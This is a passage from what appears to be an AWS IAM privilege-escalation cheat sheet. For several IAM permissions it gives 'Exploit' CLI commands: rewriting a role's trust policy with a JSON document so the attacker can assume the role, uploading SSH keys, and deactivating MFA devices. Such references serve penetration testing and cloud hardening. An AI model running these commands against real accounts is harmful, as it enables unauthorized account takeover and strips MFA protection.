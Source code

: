 **Impact:** Direct privilege escalation to the level of the group's permissions.

### **`iam:UpdateAssumeRolePolicy`**

Allows altering the assume role policy document of a role, enabling the assumption of the role and its associated permissions.

**Exploit:**

```bash
aws iam update-assume-role-policy --role-name <role_name> \
    --policy-document file:///path/to/assume/role/policy.json
```

Where the policy looks like the following, which gives the user permission to assume the role:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "sts:AssumeRole",
      "Principal": {
        "AWS": "$USER_ARN"
      }
    }
  ]
}
```

**Impact:** Direct privilege escalation by assuming any role's permissions.

### **`iam:UploadSSHPublicKey` || `iam:DeactivateMFADevice`**

Permits uploading an SSH public key for authenticating to CodeCommit and deactivating MFA devices, leading to potential indirect privilege escalation.

**Exploit for SSH Key Upload:**

```bash
aws iam upload-ssh-public-key --user-name <username> --ssh-public-key-body <key_body>
```

**Exploit for MFA Deactivation:**

```bash
aws iam deactivate-mfa-device --user-name <username> --serial-number <serial_number>
```

**Impact:** Indirect privilege escalation by enabling CodeCommit access or disabling MFA protection.

### **`iam:ResyncMFADevice`**

Allows resynchronization of an MFA device, potentially leading to indirect privilege escalation by manipulating MFA protection.
